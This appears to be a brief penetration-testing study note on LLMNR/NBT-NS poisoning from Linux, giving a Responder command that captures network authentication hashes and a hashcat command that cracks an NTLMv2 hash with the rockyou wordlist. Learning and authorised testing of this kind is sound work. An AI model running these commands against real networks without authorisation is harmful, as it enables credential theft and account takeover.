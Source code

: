 # LLMNR/NBT-NS Poisoning - from Linux

**Starting Responder with Default Settings**

```markdown
*sudo responder -I ens224* 
```

**Cracking an NTLMv2 Hash With Hashcat**

```markdown
*hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt* 
```